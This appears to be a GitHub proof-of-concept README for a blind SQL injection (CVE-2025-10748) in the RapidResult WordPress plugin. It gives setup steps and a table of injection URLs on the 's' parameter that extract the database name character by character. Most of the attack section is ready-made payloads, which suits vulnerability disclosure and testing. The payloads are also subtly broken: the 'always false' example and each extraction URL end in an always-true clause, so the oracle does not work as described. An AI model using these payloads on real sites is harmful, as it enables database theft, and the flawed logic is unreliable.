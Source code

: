 # CVE-2025-10748: RapidResult <= 1.2 - Authenticated (Contributor+) SQL Injection

The RapidResult plugin for WordPress is vulnerable to SQL Injection via the 's' parameter in all versions up to, and including, 1.2. There is insufficient escaping on this user supplied parameter and lack of sufficient preparation on the existing SQL query. It possible for authenticated attackers with contributor-level permissions and above to inject SQL queries via the 's' parameter and extract sensitive information from the database via Blind SQLi.

## CVSS v3.1 Score: 6.5 (Medium)
Vector: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N

## Setup

1. **Download and Install** the latest version of WordPress.  
2. **Install and Activate** RapidResult plugin (latest version: 1.2):  
   [https://downloads.wordpress.org/plugin/rapidresult.1.2.zip](https://downloads.wordpress.org/plugin/rapidresult.1.2.zip)  
3. Browse to:  
   [http://127.0.0.1/wp-admin/edit.php?post_type=rapidresult](http://127.0.0.1/wp-admin/edit.php?post_type=rapidresult)  

## Demonstration Steps

1. Click **Add New Result** and fill in the information. Name the post `pwned`.  

2. **Inject an always false condition** – this will display **no results**:  
http://127.0.0.1/wp-admin/edit.php?post_type=rapidresult&s=test%' OR 1=2 OR '1'='1


3. **Inject an always true condition** – this will display **all results**:  
http://127.0.0.1/wp-admin/edit.php?post_type=rapidresult&s=test%' OR 1=1 OR '1'='1

## Extract Database Name `exampledb` using Blind SQL Injection

- **True conditions** display all results  
- **False conditions** display no results  

| Character | URL |
|-----------|-----|
| e | `http://127.0.0.1/wp-admin/edit.php?post_type=rapidresult&s=test%' OR ASCII(SUBSTRING(DATABASE(),1,1))=101 OR '1'='1` |
| x | `http://127.0.0.1/wp-admin/edit.php?post_type=rapidresult&s=test%' OR ASCII(SUBSTRING(DATABASE(),2,1))=120 OR '1'='1` |
| a | `http://127.0.0.1/wp-admin/edit.php?post_type=rapidresult&s=test%' OR ASCII(SUBSTRING(DATABASE(),3,1))=97 OR '1'='1` |
| m | `http://127.0.0.1/wp-admin/edit.php?post_type=rapidresult&s=test%' OR ASCII(SUBSTRING(DATABASE(),4,1))=109 OR '1'='1` |
| p | `http://127.0.0.1/wp-admin/edit.php?post_type=rapidresult&s=test%' OR ASCII(SUBSTRING(DATABASE(),5,1))=112 OR '1'='1` |
| l | `http://127.0.0.1/wp-admin/edit.php?post_type=rapidresult&s=test%' OR ASCII(SUBSTRING(DATABASE(),6,1))=108 OR '1'='1` |
| e | `http://127.0.0.1/wp-admin/edit.php?post_type=rapidresult&s=test%' OR ASCII(SUBSTRING(DATABASE(),7,1))=101 OR '1'='1` |
| d | `http://127.0.0.1/wp-admin/edit.php?post_type=rapidresult&s=test%' OR ASCII(SUBSTRING(DATABASE(),8,1))=100 OR '1'='1` |
| b | `http://127.0.0.1/wp-admin/edit.php?post_type=rapidresult&s=test%' OR ASCII(SUBSTRING(DATABASE(),9,1))=98 OR '1'='1` |
